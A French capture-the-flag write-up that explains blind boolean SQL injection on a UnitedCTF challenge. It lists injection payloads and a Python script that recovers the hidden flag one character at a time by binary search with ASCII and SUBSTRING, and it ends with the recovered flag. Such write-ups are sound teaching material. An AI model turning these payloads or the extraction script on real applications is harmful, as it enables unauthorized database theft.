 # Writeup - Injection SQL #3: Mais je le vois pas!

La requête pour ce défi est:

```sql
SELECT id,flag FROM challenge3 WHERE id='NOTRE_INPUT';
```

Cette fois on nous dit seulement s'il y a des résultats pour notre requête ou non; même chose pour les erreurs. Ceci peut sembler être une absence d'information, mais il s'agit en fait d'une information booléenne. En Utilisant judicieusement cette dernière, on peut reconstruire des informations plus complexes morceaux par morceaux en "posant des questions" vrai ou faux. Par exemple, si je veux savoir combien il y a d'entrée dans la table, je peux voir s'il y a des résultats quand je regarde uniquement la 1ère ligne de résultats, puis la 2è et ainsi de suite:

```sql
 -- Entrée
' OR ''='' LIMIT 1 OFFSET 0 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 0 -- ';
 -- Résultat = Votre requête a retourné au moins un résultat


 -- Entrée
' OR ''='' LIMIT 1 OFFSET 1 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 1 -- ';
 -- Résultat= Votre requête n'a retourné aucun résultat
```

Avec les deux requêtes précédentes, on peut apprendre qu'il n'y a qu'une seule entrée dans la table. On peut appliquer le même principe pour retrouver chacun des caractères du contenu de la colonne `flag`. Ceci demande beaucoup de requêtes et nous allons donc le scripter. Il y a plus d'une manière de faire. Dans le script suivant, nous utiliserons les fonctions SQL `ASCII` et `SUBSTRING` pour effectuer une recherche binaire sur la valeur de chacun des caractères du flag.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests

URL = "https://unitedctf.ca:18000/challenge3.php"
HEADERS = {}

query = "' OR ASCII(SUBSTRING(flag, {}, 1)) > {} -- " # Placeholders are for Position and ascii value respectively
validate = "' OR flag='{}"

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if "au moins un résultat" in resp.text:
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while "au moins un résultat" not in requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).text:
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass) # See the flag being built char by char on the screen. This is fun to watch and prevents you from thinking the script is stuck
    return currentPass

print("Flag: " + find_password())
```

Flag: **FLAG-In_the_Land_of_Mariadb_where_the_Columns_lie_@>#;rF2T7}8-l3rO**
